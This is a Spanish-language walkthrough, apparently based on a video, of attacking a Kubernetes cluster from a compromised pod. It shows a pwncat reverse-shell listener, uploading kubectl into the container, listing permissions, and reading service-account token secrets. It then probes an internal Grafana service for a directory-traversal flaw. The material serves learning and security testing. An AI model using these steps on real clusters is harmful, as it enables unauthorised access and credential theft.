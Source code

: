 # Atacar un cluster de Kubernetes: dedes un pod a todo el cluster


 Esta basado en el video : https://www.youtube.com/watch?v=iD_klswHJQs


## Enumeración 

Si hacemos una nmap a una IP que tiene una aplicación que está en un cluster:

```console
$ nmap -v <IP>

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http

```
Obtendremos los puertos 80/443 de la aplicación y probablemente el puerto 22.

## Establecimiento inicial

Suponer que hemos conseguido abrir un shell en el contenedor aprovechando una vulnerabilidad como inyección de OS o de SQL.

Para ello se puede usar netcat pero hay herramientas interesantes como `pwncat-cs`:
```console
$ sudo pip install pwncat-cs

$ pwncat-cs -lp <LPORT>
```

Una vez abierto el shell, probablemente seamos `root` aunque veremos que el conjunto de instrucciones de las que disponemos es bastante limitado dentro del contenedor.

¿Cómo se sabe que estás dendro de un contenedor?

Hay varios indicios:

- Probablemente en habrá un archivo `/.dockerenv`
- El comando `env` tendrá información de diversos compenentes :
   ```
   KUBERNETES_PORT_443_TCP_PROTO=
   KUBERNETES_PORT_443_TCP_ADDR=
   KUBERNETES_SERVICE_HOST=
   KUBERNETES_PORT=
   ...
   GRAFANA_...=
   SYRINGE_...=
   ```


## Instalar kubectl

`kubectl`es la herramienta que permite gestionar un cluster de Kubernetes. Por tanto, es imprescindible para poder ejecurtarlo en el pod comprometido.

Una opción es subirlo al pod desde la maquina atacante con un `upload`, hacerlo accesible con un servidor web, ...

```console
cd /tmp

pwncat$ upload ./kubectl

chmod +x ./kubectl

```

Una vez disponemos de `kubectl` podemos comenzar a lanzar comandos contra el cluster de kubernetes.

Lo primero que podemos hacer es ver qué podemos hacer en  el clúster. Para ello, el siguiente comando nos dará esa respuesta
```console

$ ./kubectl auth can-i --list 

...
secrets []     []       [get list]
   [/openapi]  []       [get]       
    [/version] []       [get]      
...
```

Lo más interesante es que `secrets` son accesibles:
```console

$ ./kubectl get secrets

default-token-xxxxx   kubernetes.io/service-account-token    3  24d
developer-token-yyy   kubernetes.io/service-account-token    3  24d
   
...
```
Para ver el contenido de un  `secrets` se puede usar:

```console
$ ./kubectl get secrets developer-token-yyy -o json

{
   data:{
      ...
   }
}
...
```

Probablemente no tengamos permisos para ver otros pods que estén en ejecución:

```console
$ ./kubectl get pods
Error from server (Forbidden): ...
```

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```
Como conocemos que puede haber otros servicios ejecutando en el clúster (ver los resultados del comando `env`) intentamos conectar a esos servicios conociendo la IP y el puerto:

```console
$ curl -vvv http://grafana:3000 


$ curl -L http://grafana:3000 

```

Y buscar versiones vulnerables en alguno de los servicios. Por ejemplo, Grafana 8.3.0 que es vulnerable a Directory Traversal y es posible leer cualquier archivo.















